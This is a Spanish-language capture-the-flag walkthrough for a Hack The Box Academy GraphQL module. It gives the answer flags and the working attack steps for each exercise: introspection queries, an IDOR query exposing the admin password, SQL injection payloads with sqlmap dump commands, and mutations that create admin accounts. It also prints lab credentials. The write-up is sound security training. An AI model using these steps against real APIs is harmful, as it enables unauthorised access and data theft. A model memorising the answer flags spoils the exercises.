

# Attacking GraphQL

## Attacking GraphQL

**GraphQL**: Es un lenguaje de consulta para APIs (creado por Facebook) que permite a los clientes pedir exactamente los datos que necesitan y nada más. A diferencia de las APIs REST tradicionales (donde cada URL devuelve una estructura fija), en GraphQL normalmente **hay un solo punto de entrada (_endpoint_)**, que en tu caso descubriste que es `http://154.57.164.66:41523/graphql`

**GraphiQL**: Es una interfaz gráfica web (un panel visual interactivo) que los desarrolladores usan para probar y escribir consultas de GraphQL fácilmente. Funciona como un "IDE" en el navegador para interactuar con esa API.

### Information Disclosure

1. **After executing an introspection query, what is the flag you can exfiltrate?**

Authenticate to 154.57.164.66 , with user "<font color="#00b050">htb-stdnt</font>" and password "<font color="#c00000">AcademyStudent!</font>"

Este comando ha iniciado la herramienta [graphw00f](https://github.com/dolevf/graphw00f) para escanear y detectar (hacer _fingerprinting_) si un servidor expone una API de GraphQL y, en caso afirmativo, nos da la "puerta de entrada" (el endpoint), y la introspección de GraphQL es la que nos permite ver el plano de la casa y robar los datos.

```
python3 main.py -d -f -t http://154.57.164.66:41523/
```

<p align="center"> 

</p>

Podemos identificar todos los tipos de GraphQL usando este comando:

```
{
  __schema {
    types {
      name
    }
  }
}
```

<p align="center"> 

</p>

Y sí, obtenemos tipos personalizados interesantes, **SecretObject**  
  
Ahora podemos obtener todos los nombres del campo del tipo usando este comando:

```
{
  __type(name: "SecretObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

<p align="center"> 

</p>

```
{
  __schema {
    queryType {
      fields {
        name
      }
    }
  }
}
```

En GraphQL, la raíz de todas las consultas se llama normalmente `Query`. Puedes ejecutar esta consulta de introspección para ver qué campos principales acepta el servidor. El servidor te devolverá una lista con todas las operaciones de lectura permitidas. Entre los resultados que te devuelva la API aparecerán nombres como `users`, `posts`, o en este caso particular, **`secrets`**.

<p align="center"> 

</p>

Podemos ver que tenemos un campo interesante, como secreto, intentemos descubrir los detalles de este campo.

```
{
  secrets 
  {
   	secret 
  }
}
```

<p align="center"> 

</p>

anwers: **HTB{ddd7c7354d1f06db3604b3bbc8ccf5cd}**

### Insecure Direct Object Reference (IDOR)

1. **After following the steps in the section, what is the flag you can find in the admins password?**

Authenticate to 154.57.164.66 , with user "<font color="#00b050">htb-stdnt</font>" and password "<font color="#c00000">AcademyStudent!</font>"

Una vez que que nos autentificamos en la pagina. en un post nos enteramos el nombre del administrador que es **admin**

<p align="center"> 

</p>

Una vez autenticados en la plataforma, descubrimos mediante publicaciones internas la existencia de un usuario administrador (`admin`). Utilizando introspección sobre el esquema, consultamos la estructura del tipo **`UserObject`** para conocer sus campos disponibles:

```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

La respuesta de la API nos confirma que `UserObject` contiene campos sensibles, entre los cuales destacan `uuid`, `id`, `username`, `password`, `role`, `msg` ..

<p align="center"> 

</p>

Sabiendo que el objeto usuario maneja el campo `password` y que el nombre de usuario administrador es `admin`, construimos una consulta dirigida para extraer su información de acceso:

```
{
  user(username: "admin") {
    username
    password
  }
}
```

La API procesa la consulta y expone en texto plano la contraseña del administrador, la cual contiene la flag del reto:

<p align="center"> 

</p>

answer: **HTB{79ebbbce53f40edf75c667ef6fd36fae}**

### Injection Attacks

1. **Exploit the SQL injection vulnerability to exfiltrate data from the database. What is the flag you find?**

Authenticate to 154.57.164.66 , with user "<font color="#00b050">htb-stdnt</font>" and password "<font color="#c00000">AcademyStudent!</font>"

**¿Cuál era el problema inicial?**

El servidor web tiene una API de GraphQL que recibe consultas de usuarios, por ejemplo, para buscar información de un usuario por su nombre (`user(username: "admin")`). El problema de seguridad es que **el servidor no limpia ni protege los datos** que yo escribo. Simplemente agarra lo que pones y lo mete directamente en una base de datos SQL.

```
{
  user(username: "admin'") {
    username
    password
  }
}
```

Ese error es la "prueba de oro": que me confirma 100% que hay una **Inyección SQL (SQLi)**. Alguien malintencionado puede manipular la base de datos escribiendo comandos SQL dentro de ese parámetro.

<p align="center"> 

</p>

A continuación esta misma query usada en **GraphiQL** se transformará para el request usado en burpsuite, para obtener esta consulta con que capturemos culaquier post, es más que suficiente. 

```
{"query":"{user(username: \"admin'\") {username password}}"}
```

<p align="center"> 

</p>

En el request se cliquea en el bóton derecho del ratón y luego seleccionamos **Save selected text to file**. Se guardará el archivo como **req.txt**

<p align="center"> 

</p>

A continuación se usará la herramienta automatizada **SQLmap**. Identifica con éxito la vulnerabilidad y toma huellas dactilares de la base de datos:

```
sqlmap -r req.txt --banner --current-user --current-db --is-dba --batch
```

<p align="center"> 

</p>

Se procederá a enumerar todas las tablas dentro de la base de datos db:

```
sqlmap -r req.txt --tables -D db --batch
```

<p align="center"> 

</p>

Finalmente, volcamos el contenido de la tabla de banderas:

```
sqlmap -r req.txt -D db -T flag --dump --batch
```

<p align="center"> 

</p>

answer: **HTB{1105f1d9480ac244a0c8f2bc47594581}**

### Mutations

1. **What is the flag you find in the admin dashboard?**

Authenticate to 154.57.164.70 , with user "<font color="#00b050">htb-stdnt</font>" and password "<font color="#c00000">AcademyStudent!</font>"

Para identificar las mutaciones disponibles y sus argumentos requeridos, utilizamos la siguiente consulta de introspección:

```
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```

La respuesta revela una mutación denominada RegisterUser, que parece permitir la creación de nuevas cuentas de usuario. Esta mutación requiere un objeto RegisterUserInput como entrada:

<p align="center"> 

</p>

Para comprender qué campos se pueden proporcionar al registrar un usuario, enumeramos el objeto **RegisterUserInput**:

```
{   
  __type(name: "RegisterUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

La respuesta muestra que el objeto RegisterUserInput contiene los siguientes campos:

<p align="center"> 

</p>


  Esto indica que el cliente puede controlar directamente la función del usuario, lo que puede provocar una escalada de privilegios.  
  
Antes de crear un nuevo usuario, consultamos a los usuarios existentes para comprender cómo se almacenan las credenciales:

```
{
  users {
    username
    password
    role
    msg
  }
}
```

The response shows that user passwords are stored as **MD5 hashes**:

<p align="center"> 

</p>

Generamos un hash MD5 para la contraseña de la contraseña:

```
echo -n "password" | md5sum
```

Output:

```
5f4dcc3b5aa765d61d8327deb882cf99
```

Usando la mutación RegisterUser, creamos un nuevo usuario con privilegios estándar:

```
mutation {
  registerUser(input: {username: "sam", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "user", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

La respuesta confirma la creación exitosa del usuario:

<p align="center"> 

</p>

La autenticación con la cuenta recién creada se realizó correctamente.  
  
Debido a que el campo de rol está controlado por el cliente, intentamos crear un nuevo usuario con privilegios administrativos:

```
mutation {
  registerUser(input: {username: "superusuario", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "admin", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

La respuesta confirma que el usuario se crea con el rol de administrador:

<p align="center"> 

</p>

Después de autenticarnos como usuario administrativo recién creado, obtenemos acceso al Área de administración y recuperamos exitosamente la bandera:

<p align="center"> 

</p>

answer: **HTB{f7082828b5e5ad40d955846ba415d17f}**

## Skills Assesment

### Skills Assesment

1. **Exploit the vulnerable GraphQL API to obtain the flag.**

```
python3 main.py -d -f -t http://154.57.164.74:43993/
```

<p align="center"> 

</p>

  Utilizando la introspección GraphQL, enumeramos todas las mutaciones disponibles expuestas por la API:

```
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```

La API expone tres mutaciones:

- `addEmployee`
- `addProduct`
- `addCustomer`

<p align="center"> 

</p>

La mutación addEmployee es de particular interés, ya que puede permitir una escalada de privilegios. Esta mutación requiere un objeto AddEmployeeInput. Para determinar qué campos se pueden proporcionar, enumeramos la definición del objeto de entrada:

```
{   
  __type(name: "AddEmployeeInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

El objeto AddEmployeeInput contiene los siguientes campos:

- `username`
- `employeeId`
- `role`

<p align="center"> 

</p>

La presencia de un campo de rol controlable por el usuario sugiere claramente una vulnerabilidad de escalada de privilegios, ya que no se aplican restricciones a nivel de esquema.  
  
Antes de explotar esto, consultamos a los empleados existentes para comprender cómo se almacenan los datos de los empleados.

```
{
  allEmployees {
    id
    username
    employeeId
    role
  }
}
```

<p align="center"> 

</p>

El campo de identificación parece estar codificado en Base64. Sin embargo, este valor se genera en el servidor y no es necesario proporcionarlo al crear un nuevo empleado.  
  
Primero intentamos crear un empleado estándar:

```
mutation {
  addEmployee(input: {username: "sam", employeeId: 1340, role: "employee"}) {
    employee {
      id
      username
      employeeId
      role
    }
  }
}
```

<p align="center"> 

</p>

A continuación, intentamos asignar una función elevada estableciendo la función en administrador:

```
mutation {
  addEmployee(input: {username: "administrator", employeeId: 1340, role: "admin"}) {
    employee {
      id
      username
      employeeId
      role
    }
  }
}
```

Esto confirma una vulnerabilidad de escalada de privilegios no autenticada. Sin embargo, dado que la parte de la aplicación orientada al usuario está deshabilitada, no es posible iniciar sesión como este usuario.  

<p align="center"> 

</p>

Por lo tanto, continuamos investigando la API en busca de vulnerabilidades de inyección SQL.

**SQLi**

A la derecha en la pestaña donde dice **Docs** se abre y luego se selecciona **Query**. Dentro de la query esta la diferente forma de como se construye una consulta:

<p align="center"> 

</p>

Se pruebas todas y donde se consiguió un **SQLi** son los parámetros **apiKey** y **lastName**

Se enumera las claves API válidas mediante la siguiente consulta:

```
{
  activeApiKeys {
    id
	  role
    key
  }
}
```

<p align="center"> 

</p>

En primer lugar se enumera a los clientes que utilizan una clave API de administración válida:

<p align="center"> 

</p>

Luego intentamos la inyección SQL a través del parámetro lastName:

```
{
customerByName(apiKey: "0711a879ed751e63330a78a4b195bbad", lastName: "Sawyer'") {
    id
		firstName
  	lastName
  	address
  	id
  }
}
```

Esto da como resultado un error de base de datos:

<p align="center"> 

</p>

Se captura esta misma petición con **burpsuite**. Se debe colocar el asterisco (`*`) justo donde probaste la inyección manual (después de la comilla en `Sawyer'`).

<p align="center"> 

</p>

Debería de quedar así la consulta: 

```
POST /graphql HTTP/1.1
Host: 154.57.164.74:43993
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 120
Origin: http://154.57.164.74:43993
Connection: keep-alive

{"query":"{customerByName(apiKey: \"0711a879ed751e63330a78a4b195bbad\", lastName: \"Sawyer'*\") {id firstName lastName address}}"}
```

Usando la solicitud capturada, enumeramos la base de datos backend:

```
sqlmap -r req1.text --dbms=mysql --banner --current-user --current-db --is-dba --batch
```

<p align="center"> 

</p>

Se enumera todas las tablas:

```
sqlmap -r req1.text --tables -D db --batch
```

<p align="center"> 

</p>

La bandera se recupera con éxito:

```
sqlmap -r req1.text -D db -T flag --dump --batch
```

<p align="center"> 

</p>

answer: **HTB{f1d663c11e6db634e1c9403d0e8e3a35}**